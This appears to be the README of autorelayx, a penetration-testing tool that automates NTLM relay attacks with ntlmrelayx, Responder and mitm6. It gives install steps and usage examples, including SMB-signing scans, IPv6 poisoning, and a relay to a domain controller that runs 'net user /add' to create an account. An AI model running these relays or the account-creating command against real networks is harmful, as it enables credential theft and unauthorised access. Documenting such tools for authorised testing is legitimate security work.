 Autorelayx
=======

Automates the process of setting up advanced relaying techniques.

# Installation

    git clone --recurse-submodules https://github.com/Coalfire-Research/autorelayx
    cd autorelayx
    sudo pipenv install
    sudo pipenv shell

# Usage

## SMB relay
Hostlist should be formatted in CIDR notation (192.168.0.0/24) or individual IPs separated by a newline. This will
scan the hosts in the hostlist for any that do not have SMB signing enabled and write them to unsigned-smb-hosts.txt.
Runs ntlmrelayx.py and Responder.

```python autorelayx.py -l hostlist.txt```

## IPv6 poisoning
This will run ntlmrelayx, Responder, and mitm6. It is suggested to use the -d <domain> argument to limit mitm6's responses.

```python autorelayx.py -l hostlist.txt -6 -d CONTOSO```

## Relaying to single target and running a custom command once successful
```python autorelayx.py -t smb://dc01.local -c "net user /add danmcinerney P@ssword123456"```

## To do
* add support for PrivExchange
* add support for CVE-2019-1040
* add tests